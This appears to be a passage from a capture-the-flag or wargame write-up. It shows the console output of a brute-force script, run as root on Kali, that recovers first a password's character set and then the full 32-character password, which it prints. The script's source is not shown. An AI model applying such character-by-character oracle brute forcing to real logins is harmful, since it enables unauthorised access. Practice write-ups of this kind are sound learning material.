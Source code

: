 ```console
root@kali:~# chmod +x brute.py
root@kali:~# ./brute.py
Using: 0
Using: 03
Using: 035
Using: 0356
Using: 03569
Using: 03569a
Using: 03569ac
Using: 03569ace
Using: 03569aceh
Using: 03569acehi
Using: 03569acehij
Using: 03569acehijm
Using: 03569acehijmn
Using: 03569acehijmnp
Using: 03569acehijmnpq
Using: 03569acehijmnpqt
Using: 03569acehijmnpqtw
Using: 03569acehijmnpqtwB
Using: 03569acehijmnpqtwBE
Using: 03569acehijmnpqtwBEH
Using: 03569acehijmnpqtwBEHI
Using: 03569acehijmnpqtwBEHIN
Using: 03569acehijmnpqtwBEHINO
Using: 03569acehijmnpqtwBEHINOR
Using: 03569acehijmnpqtwBEHINORW
All characters used. Starting brute force... Grab a coffee, might take a while!
Password: W*******************************
Password: Wa******************************
Password: WaI*****************************
Password: WaIH****************************
Password: WaIHE***************************
Password: WaIHEa**************************
Password: WaIHEac*************************
Password: WaIHEacj************************
Password: WaIHEacj6***********************
Password: WaIHEacj63**********************
Password: WaIHEacj63w*********************
Password: WaIHEacj63wn********************
Password: WaIHEacj63wnN*******************
Password: WaIHEacj63wnNI******************
Password: WaIHEacj63wnNIB*****************
Password: WaIHEacj63wnNIBR****************
Password: WaIHEacj63wnNIBRO***************
Password: WaIHEacj63wnNIBROH**************
Password: WaIHEacj63wnNIBROHe*************
Password: WaIHEacj63wnNIBROHeq************
Password: WaIHEacj63wnNIBROHeqi***********
Password: WaIHEacj63wnNIBROHeqi3**********
Password: WaIHEacj63wnNIBROHeqi3p*********
Password: WaIHEacj63wnNIBROHeqi3p9********
Password: WaIHEacj63wnNIBROHeqi3p9t*******
Password: WaIHEacj63wnNIBROHeqi3p9t0******
Password: WaIHEacj63wnNIBROHeqi3p9t0m*****
Password: WaIHEacj63wnNIBROHeqi3p9t0m5****
Password: WaIHEacj63wnNIBROHeqi3p9t0m5n***
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nh**
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm*
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
Completed!
```
